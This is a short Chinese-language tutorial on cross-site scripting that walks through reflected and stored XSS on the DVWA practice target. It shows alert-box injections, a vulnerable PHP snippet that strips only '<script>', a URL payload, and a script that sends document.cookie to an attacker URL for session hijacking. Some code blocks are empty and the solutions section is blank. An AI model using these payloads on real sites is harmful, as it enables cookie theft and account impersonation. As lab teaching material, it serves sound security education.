

XSS
===

[TOC]

> 永远不要相信客户端传输的数据。


几句话介绍
----------

xss 是Cross Site Scripting的缩写，跨站脚本攻击。

输入框中注入js代码，利用js代码操作浏览器数据进行攻击，分为两种情况：

- 反射式，利用邮件或者其他形式在url里面注入js代码保存到页面中，进行攻击。
- 储存式，利用类似于评论这种可以交互显示的文本，注入js，回显在页面，进行攻击。


测试环境
--------

[dvwa的在线测试靶场](http://43.247.91.228:81/security.php) 


攻击原理
--------

### 案例

dvwa low 难度的xss攻击，http://43.247.91.228:81/vulnerabilities/xss_r/?name=kk，这里是已经提交了kk



可以猜测，他应该是你输入什么就显示什么，输入下面的语句试试

（有的浏览器可能有所防护，用internet export）

```html
kk<script type="text/javascript">alert("kk");</script>
```


可以很明确的知道，此时被攻击了，但如何获取信息给攻击者呢？

既然可以写入js脚本进行弹框，也能用js写其他的代码获取浏览器的其他信息。

造成这样的原因就是，**用户的输入直接被输入**


### 类别

其实本质都一样，可以区分的就是是一次攻击，还是长久性攻击


#### 反射型

##### 案例一

可能具有的防护是stript被过滤

dvwa medium难度等级

当输入，浏览器并没有产生xss攻击

```html

```

再输入

```

```

成功


源码

```php
<?php  
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // 这里进行了替换
    $name = str_replace( '<script>', '', $_GET[ 'name' ] ); 
    echo "<pre>Hello ${name}</pre>"; 
} 
?> 
```

#####payload

可以产生的攻击就好比，发一份邮件，点击访问一个连接，进行文本写入，执行js

```http
http://localhost:8001/content.html?txt=hello';alert('x')//
```


#### 存储型

存储型的攻击，就是将攻击存储到了数据库，但其他用户进行访问的时候，产生攻击。

##### 案例

dvwa 中low等级的store选项的攻击

- 先看一下是怎样的环境，类似于评论

  

- 输入payload

  ```html
  name：pp
  message：
  ```

  

  可以清楚的知道，出现了xss弹框，这里就会存在攻击

- 用其他用户登入，chrome流浪器打开，发现出现弹框

  


##### payload

可以通过xss攻击，获取到当前浏览器的cookie，然进行冒充，下面就是payload。

```html
<script>window.open('url'+document.cookie)</script>
```


解决方案
--------

